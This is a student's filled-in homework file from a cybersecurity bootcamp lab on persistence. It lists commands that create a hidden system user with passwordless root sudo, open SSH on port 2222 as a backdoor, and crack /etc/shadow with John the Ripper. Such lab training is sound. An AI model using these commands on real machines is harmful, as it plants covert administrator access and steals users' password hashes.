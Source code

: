 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd -M sysd`

2. Give your secret user a password: 
    within root- `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 312 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 312 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo - then add 'sysd ALL=(ALL) NOPASSWD:ALL `

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo -l
      ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```nano /etc/ssh/sshd_config
    - PasswordAuthentication yes
    - # Port 22
    - Port 2222

    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - ` sudo systemctl restart ssh.service`

2. Exit the `root` account:
    - `ctrl+D or exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

